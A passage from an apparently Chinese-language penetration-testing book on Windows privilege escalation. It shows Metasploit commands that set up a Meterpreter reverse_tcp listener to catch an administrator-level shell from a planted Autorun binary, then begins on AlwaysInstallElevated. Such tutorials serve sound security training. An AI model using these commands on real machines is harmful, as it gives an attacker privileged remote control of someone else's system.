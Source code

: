     ](Images/B17389_09_005.jpg)

    图 9.5 – 上传自定义 Autorun 程序

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    **use /exploit/multi/handler**

1.  下一步是指定我们使用 MSFvenom 创建二进制文件时所用的有效载荷。可以通过运行以下命令来完成：

    **set payload /windows/x64/meterpreter/reverse_tcp**

    现在，我们需要配置模块选项。在这种情况下，我们需要配置**LHOST**和**LPORT**选项，如以下截图所示：

    ![图 9.6 – Meterpreter 负载选项](img/B17389_09_008.jpg)

    ](Images/B17389_09_006.jpg)

    图 9.6 – Meterpreter 负载选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    **run**

    监听器将监听我们通过 MSFvenom 生成的负载发出的任何传入连接。

1.  我们的自定义自动运行程序将在管理员下次登录时自动执行，之后我们应该会收到一个特权的 Meterpreter 会话，如下截图所示：

![图 9.7 – 自动运行 Meterpreter 会话](img/B17389_09_007.jpg)

](Images/B17389_09_007.jpg)

图 9.7 – 自动运行 Meterpreter 会话

有了这个，我们成功地通过利用具有配置错误权限的自动运行程序提升了我们的权限。

# 利用 Always Install Elevated 功能

AlwaysInstallElevated 是一个 Windows 功能，它允许没有管理员权限的标准用户帐户以管理员权限安装打包为**Microsoft Windows Installer**（**MSI**）格式的软件。
